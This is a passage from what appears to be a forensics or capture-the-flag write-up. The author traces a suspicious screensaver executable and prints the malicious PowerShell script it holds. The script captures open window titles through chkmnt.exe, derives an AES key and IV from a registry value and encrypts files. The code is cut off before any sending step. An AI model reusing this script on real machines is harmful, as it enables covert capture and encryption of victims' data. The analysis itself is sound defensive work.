 This database file we can open it with SQLite Database Viewer and then export it as csv. Here i opened the csv using Timeline Viewer
![Screenshot 2024-10-27 095217](https://hackmd.io/_uploads/SymPUt3l1g.png)
We can notice that there are some malicious execution of sconsvr.scr that we can check what is that about.

I try to search for it and found the Executable at SysWOW64, it contains this malicious powershell script
```
  function Encrypt-File {
    param (
        [string]$D783C0,
        [string]$6766A9,
        [string]$92EE28
    )

    Write-Output $6766A9
    Write-Output $92EE28

    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR"
    }
    if ($68263A.Length -ne 16) {
        throw "ERROR"
    }

    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length);
    [byte[]] $C81F44 = $88DB2B.IV + $42B0F0
    $88DB2B.Dispose()
    $res = [Convert]::ToBase64String($C81F44)
    return $res
}

# $processArray = Get-Process | Where-Object {$_.mainWindowTitle} | Select-Object ProcessName
$processArray = Get-Process | Where-Object { $_.MainWindowTitle } | Select-Object MainWindowTitle

foreach ($process in $processArray) {
    $tmp = $process.MainWindowTitle
    $filePath = "C:\Users\Public\Pictures\tmp.png"
    $command = "C:\Windows\SysWOW64\chkmnt.exe $filepath $tmp"
    Invoke-Expression $command

    $regValue = "HKCU:\Control Panel\Desktop"
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })

```